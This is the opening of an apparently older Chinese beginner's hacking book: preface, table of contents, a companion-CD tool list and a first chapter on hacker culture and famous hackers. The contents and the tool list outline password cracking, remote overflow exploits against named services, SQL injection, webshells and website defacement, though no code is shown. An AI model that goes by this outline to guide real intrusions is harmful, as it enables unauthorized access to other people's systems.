# 黑客入门


适合初学者的一本黑客入门图书！轻轻松松，让你七天学会黑客！

### 走进神秘的黑客
文化介绍、世界十大黑客简介、黑客基础术语。

### 黑客必备常用基础命令
Windows 以及 UNIX、Linux 常用基础命令介绍。

### 傻瓜式入侵——远程主机的信息刺探
使用扫描工具 SuperScan、nmap、流光 5、X-Scan 3.3、nessus。

### 教你如何嗅探主机——密码嗅探
本地密码破解、远程密码破解、利用嗅探来获取密码。

### 菜鸟强化之打造自己的黑客工具
如何编译执行黑客网站上公布的漏洞和偏移号。

### 个人电脑安全一点通
有效防御，让我们的电脑更安全一些吧。

### 从零开始学入侵
简简单单学远程溢出攻击、脚本注入基础知识、IIS 写权限详细利用、远程文件包含漏洞。

### 黑客试卷
最适合初学者的一本黑客入门图书！轻轻松松，让你七天学会黑客！

# 黑客入门
作者：杨冬柱（sagi）

- 出品人：孙胜利
- 主编：杨冬桂
- 编辑部：sagi / 呆呆虫 / 虫虫 / hackest / 石头 / 黄色潜水艇 / 笨牛牛
- 特约编辑：ww0830 / zj1244 / 阿布 / 美超 / 孟方明
- 光盘部：丛林
- 设计：谭海梅
- 排版：Bifrost
- 发行部主任：赵琦
- E-Mail：hackerxfiles@263.net
- 邮购查询电话：(010)88560080
- 发行联系电话：(010)88561472
- 联系人：赵琦
- 定价：人民币 22 元
- 杂志订阅及数字版与广告代理：gotoread.com 浏览网

## 前言

2004 年我与 Python 等人合写了《黑客兵器谱 II》一书，之后又与 Python 合写了《黑客问答一点通》，在那之后我一直有个心愿，希望能够独立地写出一本更适合初学者学习的黑客入门图书，可惜当时刚刚接手《黑客 X 档案》杂志的制作，许多事情都要慢慢地学习，许多经验也都需要慢慢地积累，再加上还有别的图书需要策划出版，于是《黑客入门》这本图书在完成了前两个章节后就暂时地耽搁了下来。

期间，随着网络安全/黑客技术的发展与变化，原定的一些内容构思也在不停地改变着。本打算今年三四月空出时间精力来完成本书剩余章节的内容，可没料到，杂志社突发的一些事情又致使图书进度不得不一拖再拖，直到八月份才最终完成。在此，对于那些一直以来热爱、支持、鼓励着黑客 X 档案的读者致以深深的谢意，也对于那些一直期盼着本书出版的读者致以深深的歉意！希望本书中的技术内容对于各位初学者的学习能够有所帮助，那么，sagi 也就感到很欣慰了！

本书既然是黑客入门图书，自然是以最基础、最常用的知识为主。全书主要分为八个章节：第一章，走进神秘的黑客；第二章，黑客必备常用基础命令，主要介绍了 Windows 系统以及 UNIX/Linux 系统一些最基础的系统命令的使用；第三章，入侵从这儿开始——远程主机的信息刺探，主要介绍一些最常使用的扫描工具的应用；第四章，永不过时的入侵技术——密码破解，主要介绍了本地密码破解、远程密码破解以及如何通过网络嗅探来获取密码；第五章，从零开始学入侵，主要介绍目前黑客入侵最常使用的方法，包括远程溢出的详细利用和木马的配置使用、脚本注入漏洞的基础应用、远程文件包含漏洞的简单利用等；第六章，菜鸟进化之打造自己的黑客工具，主要介绍如何测试执行黑客网站上公布的漏洞利用程序，并且如何将它们编译成 EXE 可执行程序；第七章，个人电脑安全一点通；第八章，黑客试卷，以供大家简单地测试一下自己的技术水平。

本书附带的光盘中除了收录有图书内容相关的种种工具外，还收录了许多专门从国内外黑客站点上搜集到的最新黑客工具，以及我以前收集到的一些针对 UNIX/Linux 系统的远程溢出程序、后门程序，也一并提供给大家。

因本人水平有限，再加之时间仓促，书中难免有错误之处，还请各位读者谅解。感谢 hackest 小弟对第五章部分内容进行了完善。最后，如果大家在阅读本书过程中有什么疑问的话，也可以到我的个人论坛 http://www.sagi.net.cn/bbs 或是黑客 X 档案的官方论坛 http://bbs.hackerxfiles.net 上来一起探讨，我会尽量为大家答疑解惑。

sagi

## 目录

## 第一章 走进神秘的黑客
- 1.1 黑客（Hacker）是什么？
- 1.2 世界十大电脑黑客简介
  - 1.2.1 电话大盗和超级骇客约翰·德拉浦（John Draper）
  - 1.2.2 被列维称为“最后一名真正黑客”的自由软件之父理查德·斯托尔曼（Richard Stallman）
  - 1.2.3 苹果电脑创始人斯蒂芬·沃兹尼克（Steven Wozniak）
  - 1.2.4 Unix 之父丹尼斯·里奇和肯·汤普森（Dennis M. Ritchie, Ken Thompson）
  - 1.2.5 Linux 之父李纳斯·托沃兹（Linus Torvalds）
  - 1.2.6 Lotus 创始人、电子前线基金（EFF）创始人米切尔·卡普尔（Mitch Kapor）
  - 1.2.7 被美国政府通缉的头号黑客凯文·米特尼克（Kevin Mitnick）
  - 1.2.8 蠕虫制造者罗伯特·莫里斯（Robert Morris）
  - 1.2.9 自由软件理论旗手埃里克·史蒂文·雷蒙德（Eric Steven Raymond）
- 1.3 初学者必须要知道的几个黑客术语

### 第二章 黑客及经常用到的命令
- 2.1 Windows 常用基础命令
  - 1. 管道命令 >、<、>>、<<
  - 2. 通配符 ?、*
  - 3. echo
  - 4. dir
  - 5. cd
  - 6. md
  - 7. rd
  - 8. copy
  - 9. ren
  - 10. move
  - 11. del
  - 12. type
  - 13. attrib
  - 14. ver
  - 15. ipconfig
  - 16. nbtstat
  - 17. net
  - 18. netstat
  - 19. runas
  - 20. at
  - 21. telnet
  - 22. ftp
- 2.2 UNIX/Linux 常用基础命令 …… 34
  - 1. >、<、>>、<< …… 34
  - 2. 通配符 ?、* …… 34
  - 3. echo …… 34
  - 4. dir、ls …… 34
  - 5. pwd …… 35
  - 6. cd …… 35
  - 7. mkdir …… 36
  - 8. rmdir …… 36
  - 9. cp …… 36
  - 10. mv、rename …… 36
  - 11. rm …… 36
  - 12. cat …… 36
  - 13. at …… 37
  - 14. chmod …… 37
  - 15. chown …… 38
  - 16. chgrp …… 38
  - 17. find …… 38
  - 18. w、who …… 39
  - 19. netstat …… 39
  - 20. ps …… 39
  - 21. kill …… 40
  - 22. uname …… 40
  - 23. rpm …… 40
  - 24. tar …… 40
  - 25. last …… 40
  - 26. adduser …… 41
  - 27. passwd …… 41
  - 28. ifconfig …… 41
  - 29. su …… 41
  - 30. ftp …… 42
  - 31. telnet …… 42
  - 32. ssh …… 42

### 第三章 从因特网获取远程主机的相关信息和操作
- 3.1 系统命令也来获取远程主机的相关信息 …… 44
  - 3.1.1 ping …… 44
  - 3.1.2 tracert/traceroute …… 45
  - 3.1.3 nbtstat …… 47
  - 3.1.4 nslookup …… 47
  - 3.1.5 finger …… 47
  - 3.1.6 telnet …… 47
  - 3.1.7 ftp …… 48
  - 3.1.8 ssh …… 49
  - 3.1.9 whois …… 49
  - 3.1.10 rpcinfo …… 50
- 3.2 经典扫描工具的详细使用 …… 51
  - 3.2.1 端口扫描之王 SuperScan …… 51
  - 3.2.2 UNIX/Linux 端口扫描工具 nmap …… 53
  - 3.2.3 曾经的经典——流光 …… 57
  - 3.2.4 综合扫描利器 X-Scan 3.3 …… 62
  - 3.2.5 国外优秀的扫描工具 nessus …… 66
- 3.3 Windows 弱口令的简单利用 …… 75

### 第四章
- 4.1 本地密码破解 …… 79
  - 4.1.1 如何获取系统记录下的密码 …… 79
  - 4.1.2 最专业的密码破解工具 LC5 …… 82
  - 4.1.3 菜鸟最强大的武器 Cain …… 86
  - 4.1.4 如何获取远程电脑的密码散列 …… 89
  - 4.1.5 UNIX/Linux 密码破解工具 …… 93
- 4.2 远程密码破解 …… 97
  - 4.2.1 小巧实用的 Windows 口令猜解工具 SMBCrack2 …… 98
  - 4.2.2 Windows 终端 3389 服务口令破解工具 …… 98
  - 4.2.3 最强大的远程口令破解工具 Hydra 5.4 …… 100
  - 4.2.4 如何远程登录进入系统 …… 102
  - 4.2.5 制作自己的字典文件 …… 105
- 4.3 如何获取远程主机中的用户账号 …… 108
  - 4.3.1 利用 NetBIOS 得到远程电脑的用户账号 …… 108
  - 4.3.2 利用 Finger 得到远程电脑的用户账号 …… 109
  - 4.3.3 利用 Apache 漏洞得到远程电脑的用户账号 …… 109
- 4.4 利用网络嗅探来获取密码 …… 110

### 第五章
- 5.1 简简单单学远程溢出攻击 …… 115
  - 5.1.1 Windows Server 服务远程溢出漏洞（MS06040）…… 115
  - 5.1.2 Windows DNS 服务远程溢出漏洞 …… 119
  - 5.1.3 最经典的溢出工具集 framework-3.0 …… 121
  - 5.1.4 得到了 shell 有什么用？…… 125
  - 5.1.5 菜鸟来玩 UNIX/Linux 远程溢出 …… 131
- 5.2 网站注入基础入门 …… 135
  - 5.2.1 学会从网上“捡”webshell …… 135
  - 5.2.2 批量寻找注入点 …… 137
  - 5.2.3 Access 数据库入侵 …… 138
  - 5.2.4 SA 权限的入侵 …… 141
  - 5.2.5 DB_OWNER 注入权限入侵 …… 143
- 5.3 利用 IIS 写权限来入侵网站 …… 144
- 5.4 教菜鸟来玩远程文件包含漏洞 …… 146
  - 5.4.1 远程文件包含漏洞利用过程 …… 146
  - 5.4.2 来给对方挂上一个黑网页吧 …… 150

### 第六章 来打造你自己的黑客型工具
- 6.1 C 程序的编译及执行 …… 153
  - 6.1.1 VC++ 的安装及编译 …… 154
  - 6.1.2 Unix/Linux 下 GCC 的编译 …… 157
- 6.2 使用 Cygwin 制作自己的黑客工具 …… 159
  - 6.2.1 Cygwin 的安装 …… 159
- 6.3 Perl 脚本程序的执行及编译 …… 161
  - 6.3.1 ActivePerl 的安装及使用 …… 162
  - 6.3.2 把 Perl“加工”成 exe 程序 …… 164
- 6.4 PHP 脚本的执行及编译 …… 166
  - 6.4.1 PHP 脚本的执行 …… 166
  - 6.4.2 把 PHP 也“加工”成 EXE 程序 …… 167
- 6.5 Python 脚本程序的执行及编译 …… 168
  - 6.5.1 ActivePython 的安装 …… 168
  - 6.5.2 把 Python 也“加工”成 exe 程序 …… 170

## 第七章 个人电脑安全一点通
- 7.1 电脑中必不可少的杀病毒软件 …… 172
- 7.2 安全防御的利器——网络防火墙 …… 172
- 7.3 电脑安全基础设置 …… 175
  - 7.3.1 用户账号和密码要注意的问题 …… 175
  - 7.3.2 注册表和启动项的检查 …… 177
  - 7.3.3 为我们的系统打上补丁 …… 178
  - 7.3.4 小心，你的远程桌面 …… 179
- 7.4 电脑安全的好帮手——360 安全卫士 …… 180
- 7.5 瑞星卡卡上网安全助手 …… 183

## 第八章 黑客试卷
- 黑客试卷 …… 188
  - 一、单项选择题（每题 2 分，共 20 道题）…… 188
  - 二、填空题（每题 2 分，共 15 道题）…… 189
  - 三、问答题（每题 6 分，共五道题）…… 190
- 黑客试卷参考答案 …… 190
  - 一、单项选择答案 …… 190
  - 二、填空题答案 …… 190
  - 三、问答题答案 …… 191

## 1-3章
- The Portable Virtual Privacy Machine v1.2：一个基于 Linux 内核的虚拟机，仅 80M，可放到各类移动存储设备上，包含独立桌面和必要网络应用。
- nmap-4.20-win32：网络连接端口扫描软件，用于扫描网络主机开放端口、服务及操作系统识别。
- 流光 5 正式版：多线程漏洞检测工具，支持插件，可检测端口状态、BANNER、CGI/IIS/RPC 漏洞及多类服务弱口令信息。
- WinPcap：网络抓包与分析组件，类似 libpcap（WIN32 版本）。

## 第四章
- Advanced Windows Password Recovery：较常见的密码恢复软件。
- Cain 4.8：可破解屏保口令、PWL 密码、共享资源口令、远程共享口令、SMB 口令、VNC 口令、Cisco Type-7 口令、Base64 口令解码、SQL Server/Remote Desktop/Access Database 口令等。
- findpass2003：破解 Windows 2003 管理员密码。
- john 1.7.0.1：本地口令破解工具，主要用于 UNIX/Linux 系统。
- 万能钥匙字典/万能钥匙 XKey V1.1：字典更新与排序优化。
- LC5 5.02：管理员账号密码检测与破解工具。
- Server 7.0/2000 口令解码、Remote Desktop 口令解码、Access Database 口令解码等工具。
- findpass2003：破解 Windows 2003 管理员密码。
- john 1.7.0.1：著名本地口令破解工具（UNIX/Linux）。
- 万能钥匙字典、XKey V1.1：更新内容并优化运行。
- LC5 5.02：网络管理员常用口令检测/破解工具。

## 第五章
- .NET Framework 2.0 可再发行组件包：提供运行基于 .NET Framework 2.0 开发程序所需库文件。
- framework 3.0：远程溢出工具集合。
- hdsi3.0：注入利器，含 ASP/PHP 注入等辅助功能。
- TK2006：类似 X-Scan 的系统漏洞扫描工具，附带漏洞利用程序。
- 啊D注入工具 v2.32：注入引擎，支持多线程，适用于 MSSQL/Access 等数据库注入检测。

## 第六章
- cygwin：在 Windows 下模拟 UNIX/Linux 环境的软件。
- cyuspop3d.exe：利用 cygwin 生成的 pop3d 远程溢出程序。
- pnphpbb2：针对 phpBB 2.12 及以下版本远程 SQL 注入利用程序。
- Perl2EXE：将 Perl 脚本转换为 exe 可执行文件工具。

## 热门工具
- Apache1.3.29：针对 Apache1.3.29 的远程溢出程序。
- imapdex：针对 imapd 服务的远程溢出程序。
- redhatsnmp：针对 snmp 服务的远程溢出程序。
- sendmailex：针对 sendmail 服务的远程溢出程序。
- sunapalmheap：针对 sunos 的远程溢出程序。

## 娱乐休闲
- 游戏《粉红豹》
- 游戏《鼻涕猪》
- 《魔龙大战》预告片
- 《尼斯湖水怪》预告片
- 《非法制裁》预告片
- 王力宏《改变自己》专辑

## 第一章　走进神秘的黑客

新学期开始了，新一期的菜鸟学堂也隆重开课了。sagi望了望讲台下坐得笔直的超级菜菜阿呆、阿虫、阿菜和阿黑，清了清嗓子说道：“本期的菜鸟学堂由黑客X档案资助，任课老师由大名鼎鼎的sagi，也就是本人亲自主讲，希望各位同学能够喜欢！”

立刻，台下掌声夹杂着口哨声响成一片。

只听sagi又说道：“在开始讲课前，我先问大家一个问题，大家来这儿学习，是为了什么呢？”

阿呆回答道：“我想成为一个和电影《黑客帝国》里的救世主尼奥一样酷的黑客，那样好追妹妹！”立刻众人向阿呆投去了鄙视的目光，阿呆也惭愧得低下了脑袋，不敢再看众人。

阿虫说道：“前些日子，我在QQ上碰到了一个家伙，他说自己是黑客，有多厉害多厉害的，还说自己黑掉了美国白宫的网站，并给我发过来一个网址http://www.whitehouse.cn，我一看中间的whitehouse，还真以为是白宫的网站呢，于是就半信半疑地用IE打开了那个网址，结果上边空白一片，啥也没有，可第二天，我的QQ就登录不上了，老是提示密码错误，我哭呀，这已经是我被偷去的第9个QQ号了。我也要成为黑客，狠狠地教训那帮家伙，并把我的QQ号重新给盗回来！”深有同感的阿菜也接口道：“我也被偷去了好几个魔兽的游戏账号。”同是菜鸟受害人的阿虫和阿菜立刻在一边悲伤起来。

最后，阿黑站了起来，郑重地说道：“我要黑掉日本人的网站，让他们知道我阿黑不是好惹的！”就听旁边的阿菜好奇地问道：“日本人惹你了？”阿黑回答道：“没有，是我看他们不顺眼，老抢中国的领土。”

“支持！”“同意！”“我顶……”接着，台下又是掌声一片！

听了阿呆他们的回答，sagi头上大汗一片。待台下又安静了下来，sagi又问道：“那么，到底黑客是什么呢？”

过了老半天，阿呆举手回答道：“像电影《黑客帝国》里的尼奥那样的就是黑客。”扑通，扑通，就连讲台上的sagi都差点儿被阿呆的回答给气晕过去，这个臭阿呆，怎么老是念念不忘《黑客帝国》呀。

“能盗QQ号、盗游戏账号的就是黑客。”这是阿菜和阿虫对“黑客”的认识。

“都错了，都错了，能够控制别人的电脑，黑掉别人网站的才是黑客。对不对呀，sagi老师。”阿黑嚷嚷道，末了，还不忘反问一下讲台上的sagi。

sagi摆了摆手，说道：“同学们，看来你们对于黑客的定义还存在一定的认识误区呀，其实，真正的黑客并不是你们认识的那样的。下边，就让我们先来认识一下，黑客到底是什么？”

### 1.1 黑客（Hacker）是什么？

在虚拟、冰冷的计算机世界里，最纯洁的自由精神，就是黑客精神。那些没有利益目的，只为兴趣和互助而形成的黑客文化，是自由力量的根源。在幻化网络空间的角落里，常住着一群怪人。在传说中，他们蓬头垢面，神情木讷，血红的眼睛总是在盯着电脑屏幕时才放出异样的光彩，这种人我们的媒体惯称他们为黑客（Hacker）。这群人出神入化，在自己的领地里纵横驰骋，却很少接触外界，对于其中的大部分人，外界只是知道他们的“网名”而不知道这些人真正的面目。在媒体的传说中他们有两套面孔，一套是一群专事破坏，令人惊骇的网络杀手；另一套却是仗义行侠维护网络世界自由平等的侠客。他们是在“魔”与“侠”之间徘徊的社会孤独群落。

黑客（hacker）一词，源于英语动词hack，意为“劈，砍”，引申为“干了一件非常漂亮的工作”。在早期麻省理工学院的校园俚语中，“黑客”则有“恶作剧”之意，尤指手法巧妙、技术高明的恶作剧。在日本《新黑客词典》中，对黑客的定义是“喜欢探索软件程序奥秘，并从中增长其个人才干的人。他们不像绝大多数电脑使用者那样，只规规矩矩地了解别人指定了解的狭小部分知识。”他们通常具有硬件和软件的高级知识，并有能力通过创新的方法剖析系统。“黑客”能使更多的网络趋于完善和安全，他们以保护网络为目的，而以不正当侵入为手段来找出网络中存在的漏洞。

另一种入侵者是那些利用网络漏洞破坏网络或谋取利益的人。他们往往做一些重复的工作（如用暴力方法破解口令等），他们也具备广泛的电脑知识，但与黑客不同的是他们以破坏或获取利益为目的。这些群体称为“骇客”（Cracker）。当然还有一种人介于黑客与骇客之间。

一般认为，黑客起源于50年代麻省理工学院的实验室中，他们精力充沛，热衷于解决难题。60、70年代，“黑客”一词被赋予褒义，用于指代那些独立思考、奉公守法的计算机迷，他们智力超群，对电脑全身心地投入，从事黑客活动意味着对计算机的最大潜力进行智力上的自由探索，为电脑技术的发展做出了巨大贡献。正是这些黑客，倡导了一场个人计算机革命，倡导了现行的计算机开放式体系结构，打破了以往计算机技术只掌握在少数人手里的局面，开了个人计算机的先河，提出了“计算机为人民所用”的观点，他们是电脑发展史上的英雄。现在黑客使用的入侵计算机系统的基本技巧，例如：破解口令（password cracking）、开天窗（trapdoor）、后门（backdoor）、安放特洛伊木马（Trojan horse）等，都是在这一时期发明的，而后来又出现了CGI漏洞攻击、溢出攻击、脚本注入攻击等。从事黑客活动的经历，成为后来许多计算机业巨子简历上不可或缺的一部分。例如，苹果公司创始人之一乔布斯就是一个典型的例子。

在60年代，计算机的使用还远未普及，还没有多少存储重要信息的数据库，也谈不上黑客对数据的非法拷贝等问题。到了80、90年代，计算机越来越重要，大型数据库也越来越多，同时，信息越来越集中在少数人的手里。这样一场新时期的“圈地运动”引起了黑客们的极大反感。黑客认为，信息应共享而不应被少数人所垄断，于是将注意力转移到涉及各种机密的信息数据库上。而这时，电脑化空间已私有化，成为个人拥有的财产，社会不能再对黑客行为放任不管，而必须采取行动，利用法律等手段来进行控制，黑客活动受到了空前的打击。但是，政府和公司的管理者现在越来越多地要求黑客传授给他们有关电脑安全的知识。许多公司和政府机构已经邀请黑客为他们检验系统的安全性，甚至还请他们设计新的安全系统。无疑黑客正在对电脑防护技术的发展作出贡献。

从以上的定义可以看出来，黑客远不是国内媒体所广泛认为的那些所谓偷QQ号、偷电子邮件、偷魔兽账号，或是故意入侵并破坏网站甚至是个人电脑系统的入侵者。他们更应该被称为骇客（Cracker），而不是黑客（Hacker）。

真正的黑客，喜欢发掘系统细节，学习最新的技术与拓展自己能力，相对于一般人所学习的一小部分必要的电脑常识，他们习得的是真正的电脑知识与系统核心，虽然他们可能不是真正顶尖的程序高手，但是在他们关注的方面，没有任何程序高手可以和他们匹敌。这群热衷于程序设计的狂热分子，喜欢技术挑战胜于对理论的探讨，常常编写精致的电脑程序，却从不考虑商业应用。他们中也有一批人，顽固地认同“互联网世界，信息平等”，肆意入侵各种网站。在很多时候，人们分不出谁是电脑空间的痞子，谁是真正的黑客。无“侠”无“魔”，就是黑客的典型特征。因为他们手中掌握的电脑技术，不论是“侠”还是“魔”，均在于他们一念之间的选择。

除了黑客（Hacker）与骇客（Cracker）外，目前在国内外，还有一类专门以破解注册软件甚至是受到保护的商业软件的群体，他们将那些需要注册甚至是需要花钱才可以使用或是使用全部功能的软件破解掉，以使网络上的所有人都可以不受任何限制地使用这些软件。从做法上讲，这也符合原始的黑客精神（在这儿我不想讨论这些人是否已经触犯了法律）。这类人目前也被称为了Cracker，但与我们前边讲的骇客（Cracker）又不同。

> “噢，原来是这样呀！想不到居然还有黑客与骇客之分呀。”台下的阿菜他们惊呼道。  
> “一个真正的黑客，除了要具备超人的计算机技术外，还需要拥有一个正确的奋斗目标。下边，就让我们来简单地了解一下世界上公认的十大超级电脑黑客，或许从他们的点点滴滴中，我们可以更深刻地理解黑客的真正含义！”

### 1.2 世界十大电脑黑客简介

### 1.2.1 电话大盗和超级骇客约翰·德拉浦（John Draper）

- 圈内头衔：Cap'n Crunch（嘎吱上尉）
- 主要成就：发现了使用“嘎吱嘎吱船长”牌的麦片盒里作为奖品的哨子（向电话话筒吹哨）可以免费打长途电话。Cap'n Crunch给几代黑客引入了“盗用电话线路”打长途电话的辉煌思想。
- 第一次接触计算机：青少年时期，试图使投币式公用电话确信得到他的硬币和接通他的电话。
- 自己独特的工具：嘎吱嘎吱船长牌的麦片盒里的玩具口哨，能够产生2600赫兹的音调，这是让电话系统开启一个电话呼出的蓝匣子（用这种装置侵入电话系统），用户就可以免费地打长途电话。随后的奥斯卡梅耶韦纳（Oscar Meyer Weiner）口哨也曾一度获得电话飞客们的青睐。
- 目前的状况：约翰·德拉浦开办了他自己的安全公司。他目前还在开发“Crunchbox”，“Crunchbox”是一个防火墙系统，它能抑制电脑病毒的传播。

#### 1.2.2 被列维称为“最后一名真正黑客”的自由软件之父理查德·斯托尔曼（Richard Stallman）

1971年，斯托曼在街上找到一份MIT人工智能实验室的工作。当时他是哈佛大学的一名本科生。后来，斯托曼创立了自由软件基金，打破了软件是私有财产的概念。

第一次接触计算机：1969年在IBM纽约科学中心，时值16岁。

自己独特的黑客工具：在上世纪80年代，斯托曼不拿MIT的薪水但继续在其中的一个办公室工作。在那里他创造了一个新的操作系统GNU，GNU是“GNU's Not Unix”的缩写。

目前的状况：理查德·斯托尔曼由GNU出版社出了一本新书《Free Software, Free Society: Selected Essays of Richard M. Stallman》（《自由的软件，自由的社会：理查德·斯托尔曼文选》）。

### 1.2.3 苹果电脑创始人斯蒂芬·沃兹尼克（Steven Wozniak）

在硅谷408区号的人们，如果想拨打800电话预定泛美航空的机票，他们常常发现电话拨到一个莫名其妙的地方。有时听到的是笑话，有时会告诉你是泛美的第一百万个旅客，可终身免费，而在记录个人材料时，电话又会突然中断，让你心急火燎地重拨，想挽回这个突如其来的“大馅饼”。其实玩这些恶作剧的，就是后来名震遐迩，与乔布斯一起创办苹果，点燃计算机革命的斯蒂夫·G·沃兹尼克。

图1.3

2001年，美国“洛杉矶时报”评选出了“本世纪经济领域50名最有影响力人物”，美国苹果电脑公司创办人、苹果电脑公司董事长兼临时CEO史蒂夫·乔布斯（Steve Jobs）与另一名苹果电脑公司创办人沃兹尼克并列第5名，他们的贡献主要表现为“创办苹果电脑，苹果I和苹果II的出现带动了全球个人电脑普及应用浪潮，并迫使IBM PC于1981年面世。”

对于那些打开计算机后知道自己想要什么的人来说，苹果II计算机仍然是一件艺术品。1977年，也许世界上只有少数人具备硬件、软件、电子设备和电路板布线等方面的知识，同时也只有少数人了解苹果II计算机的制造技术、艺术特点，并欣赏它的设计优点，或者说也许只有一个人具备上述知识。史蒂夫·沃兹尼克是个当之无愧的奇才。

### 1.2.4 Unix之父丹尼斯·里奇和肯·汤普森（Dennis M. Ritchie, Ken Thompson）

不可思议的是，当初这个操作系统的诞生，并不是为了把它推向市场，甚至不是为了让更多人使用，而仅仅是作者为了便于自己使用，而且初衷是为了自己更方便地玩游戏。连Unix这个别扭的名字，也是对早期一个名为Multics的操作系统开玩笑的称呼。在后来的获奖答谢中，作者之一的丹尼斯·里奇坦然说：“我们的目的是为自己建立一个良好的计算机工作环境，当然也希望大家都能喜欢它”。

图1.4

然而，就在这不经意间，奇迹诞生了，再一次验证了IT业的创新往往源自于兴趣，而不是大把大把的金钱。经过10年的内部使用，于70年代中期开始，Unix第一次公诸于世就慢慢地走向了成功，震动整个计算机业。1969年开始工作时，里奇和汤普森根本没有想过要掀起业界的狂热，在1974年以前，他们甚至没有发表过任何关于项目的消息。而当Unix露面时，他们还惊奇于会引起如此大的兴趣，他们并没有积极推销，大学、研究机构可以免费使用，而且还提供源代码。

两人所在的单位——大名鼎鼎的贝尔公司也没有鼓励开发Unix，但当它成为畅销品时，贝尔才认识到它是一件珍品，并很高兴拥有Unix的部分商标，针对企业收取4.3亿美元的特许使用权。一位贝尔高级主管曾说，Unix是继晶体管以后的第二个最重要发明。丹尼斯……面对这种说法，只是谦虚地说：“就其受公众瞩目的程度而言，Unix确实是一项重要的开发”。

据10年统计，1985年美国大约有27.7万台计算机使用Unix，1990年增加到210万台，目前已超过500万，用户数达到3000万以上（事实上这是前几年的数据，相信现在使用UNIX及类UNIX系统的电脑会远远超过这个数量）。1987年初，适用于Unix的软件包达到了2000个，而两年前还只有300个。到80年代中期，Unix就自然成为计算机业的主要标准，尤其在科学和工程应用方向。1984年9月《财富》杂志称，世界上有750所大学中80%的计算机科学家是Unix客户。因此几乎任何计算机专业毕业的，都接触过Unix。1999年4月27日，两人在白宫从美国总统克林顿手中接受沉甸甸的“全美技术勋章”，这是对他们成就的最高评价。图中为美国前总统克林顿接见丹尼斯·里奇和肯·汤普森。

- 圈内头衔：dnr和Ken
- 主要成就：贝尔实验室著名的计算机科学工作组的创造力推进剂。里奇和汤普森在1969年创造了UNIX，UNIX是小型机上的一个一流的开放操作系统，它能帮助用户完成普通计算、文字处理、联网，很快成为一个标准的语言。
- 自己独特的工具：虽然里奇是流行的C编程语言的缔造者，但他最喜爱的语言是Alef。汤普森是一个业余飞行爱好者，曾经飞行到莫斯科，挑战前苏联米格29飞机。
- 目前的状况：丹尼斯·里奇目前是朗讯科技的系统软件研究部的领头人，肯·汤普森已经退出贝尔实验室和黑客事业。

### 1.2.5 Linux之父李纳斯·托沃兹（Linus Torvalds）

Linux这部史诗发端于赫尔辛基大学。似乎天下的黑客都在为自己的生命创作源程序，李纳斯也不例外。他的家就在离市中心不远的Kalevagatan（与卡勒瓦拉很相近）大街。这是一个19世纪的建筑与现代化平房交相呼应的地方。李纳斯与妻子住在这里。他的家很像是大学生的集体宿舍，楼梯下总放着一排排自行车。

李纳斯本人看起来就像一名学生，而不像道士。他中等身材，浅褐色头发，蓝眼睛，目光透过镜片直直地射向你，只有浓密的眉毛是黑色的，衬着一张孩子气的脸庞。他的房间四周排列着许多书籍，里面布满了油画和各种装饰品，相当低廉的窗帘，两把扶手椅之间挂着风干的鳄鱼皮，房间里还有两只目空一切的猫和几台计算机：三台PC，一台Power Mac，还有三台从DEC借来的基于Alpha芯片的微机。它们不起眼地布置在房间的角落中。另外一样很有意思的东西不易察觉：那是一根将计算机连到电话插座的导线，这是通向互联网的256K专线，由当地的一家ISP安装并承担费用，它是对这位Linux道士的象征性奖励。

图1.5

Linux并不是一件刻意创造的杰作，而完全是日积月累的结果，是经验、创意和一小块一小块代码的合成体，不断地积累使其成为一个有机的整体。Linux初期的许多编程工作是在Sindair QL机器上完成。这台机器花掉了他2000多美元，对他来说，这可是一笔“巨额”投资。这是一种十分古怪的英国产电脑，是1984年推出的。它有无数的缺点，却有一个真正的优点：它是一套真正的多任务系统。有一件十分关键的事件最终导致了Linux的诞生。

Linux的黑客们包括李纳斯本人，似乎对编写应用软件不感兴趣。但随着Linux市场扩展，商业公司也开始弥补这一欠缺，包括字处理、电子表格、图形软件等强劲的桌面应用软件已经纷纷涌现。

> “我并没有成为一个完全的隐士，但是即使在Linux出现之后，我一如既往地不善交际。我的大多数朋友都很善于与人相处，但我不行。你可以想象一下，如果从来没有给女人打过电话，那约会的情况会是怎样的呢？所以在那段时间里，我只有几个常到我那里敲窗子、想和我喝杯茶的朋友。我不认为有人会到处传说我正在做一项伟大的事业，我将改变世界之类的话。我不认为有人曾经这么想过。”

> “对我而言，那意味着电话一直占线，没有人能给我们打电话……后来，明信片开始从四面八方寄来。我想就在那时，我意识到现实世界的人们确实在使用他所创造的东西。”李纳斯·托沃兹说道。

- 主要成就：

好像是谈论梦想，又好像是“X档案”中的一段情节。一个21岁的芬兰大学生，在学生宿舍里写了一个操作系统的内核——Linux，然后公布于众，吸引了成千上万的程序员为之增补、修改和传播，短短几年就拥有了1000多万的用户，成为地球上成长最快的软件。李纳斯·托沃兹（Linus Torvalds），当今世界最著名的电脑程序员、黑客，Linux内核的发明人及该计划的合作者。托沃兹利用个人时间及器材创造出了这套当今全球最流行的操作系统内核之一，使自由软件从产业思想运动演变成为市场商业运动，从此改变了软件产业，乃至IT产业的面貌。时至今日，Linux已经成长为唯一能够威胁到微软Windows霸主地位、让微软感到害怕的一个操作系统。

### 1.2.6 Lotus创始人、电子前线基金（EFF）创始人米奇尔·卡普尔（Mitch Kapor）

1971年，卡普尔从耶鲁大学毕业，在校期间，他专修心理学、语言学以及计算机学科，也就是在这时他开始对计算机萌生兴趣。他继续到研究生院深造。20世纪60年代，退学是许多人的一个选择，只靠知识的皮毛，你也能过日子。那些年里，卡普尔1年可以挣1.2万美元。他漫无目标地游荡，正如他后来描绘自己这一时期的生活时所说，他成了一个“有知识的吉普赛人”。

卡普尔的工作漂泊不定，他曾经教过抽象思维课，做过无线电唱片音乐节目的兼职广播员，甚至滑稽演员都一一经历过，而且娶了老婆又离了婚。4年游荡后，他总觉得自己还缺点什么。

1978年，他在Beacon大学获得硕士学位，同时还在一家精神病机构工作，当一名咨询员，其工作性质在精神上与“倒便盆”相当。期间，对计算机的兴趣帮助他消磨了大部分时间，他经常出没在计算机商店，垂涎欲滴地欣赏着新的计算机产品。

1978年，苹果将苹果II型降到了1500美元左右，卡普尔四处张罗，用自己的立体声音响设备作抵押，终于买到了他的第一台计算机。买下计算机后没几天，这位口袋空空的无业游民邂逅了一位年轻人，他正向一位推销员询问新计算机的用途，卡普尔走上前去说：“我……”可以帮你学。”于是他就开始给他辅导计算机应用，报酬是每小时5美元。

